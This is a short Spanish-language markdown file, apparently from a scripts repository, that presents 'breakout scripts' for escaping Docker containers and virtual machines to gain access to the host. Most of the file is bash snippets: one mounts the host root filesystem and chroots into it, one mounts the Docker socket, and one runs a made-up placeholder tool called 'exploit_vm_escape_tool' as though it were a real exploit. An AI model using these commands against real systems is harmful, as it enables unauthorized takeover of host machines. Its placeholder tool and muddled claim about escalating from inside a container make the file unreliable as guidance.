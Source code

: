### **Scripts/Breakout_Scripts/breakout_scripts.md**

# Breakout Scripts

## Descripción

`Breakout Scripts` son scripts diseñados para escapar de entornos aislados como contenedores Docker o máquinas virtuales. Facilitan la explotación de vulnerabilidades en la configuración para obtener acceso al sistema host.

## Uso

Los scripts se ejecutan dentro del entorno aislado para intentar superar las restricciones impuestas.

### Ejemplos principales

- **Escapar de un contenedor Docker con privilegios elevados:**

  ```bash
  #!/bin/bash
  # Script para escalar privilegios desde un contenedor Docker
  docker run -v /:/host alpine chroot /host /bin/sh
  ```

- **Escapar de una máquina virtual mediante exploits conocidos:**

  ```bash
  #!/bin/bash
  # Uso de exploit local para VM escape
  exploit_vm_escape_tool --target vm_identifier
  ```

- **Explotar configuraciones inseguras de Docker:**

  ```bash
  #!/bin/bash
  # Montar el socket de Docker y obtener acceso al host
  docker run -v /var/run/docker.sock:/var/run/docker.sock -it alpine sh
  ```
